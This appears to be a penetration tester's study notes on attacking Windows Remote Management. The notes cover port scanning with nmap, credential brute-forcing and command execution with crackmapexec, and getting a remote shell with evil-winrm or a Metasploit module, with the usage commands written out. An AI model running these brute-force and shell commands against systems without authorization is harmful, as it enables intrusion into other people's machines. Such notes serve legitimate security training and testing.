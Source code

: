 requires credentials

Brief
=
- windows remote management protocol
- not configured to run by default
- facilitates remote access over https 5985 5986
- purpose is to make life easier to sys admins to manage a larger number of machines
- can run over the internet

Methodology
=
1. use nmap to scan for winrm ports - not in the top ports, specify ports (5985, 5986 or port range or all ports). service scan on nmap will not explicity say it is winrm service, will display http information
2. use crackmapexec to bruteforce winrm
3. use crackmapexec to execute commands (whoami, systeminfo)
4. use evil-winrm to get shell on system or metasploit winrm-script_exec module for meterpreter session

Authentication
=
1. user/pass authentication
2. user/password hash authentication

Enumeration
=
`nmap -sV ip -p5985,5986`

crackmapexec
=
brute force WinRM to get users and passwords and execute commands on system

supports protocols: mssql, smb, winrm, ssh

bruteforce usage (winrm):
`crackmapexec winrm target_ip -u username.lst/username -p password.lst`

execute commands usage (winrm):
`crackmapexec winrm -u user -p password -x "command"`

evil-winrm
=
ruby script to obtain command shell session on target system

usage for command shell:
`evil-winrm.rb -u username -p password -i target_ip`

Metasploit
=
`use exploit/windows/winrm/winrm_scrip_exec` meterpreter shell (might not work, may need to keep retrying to module)
	set force_vbs true

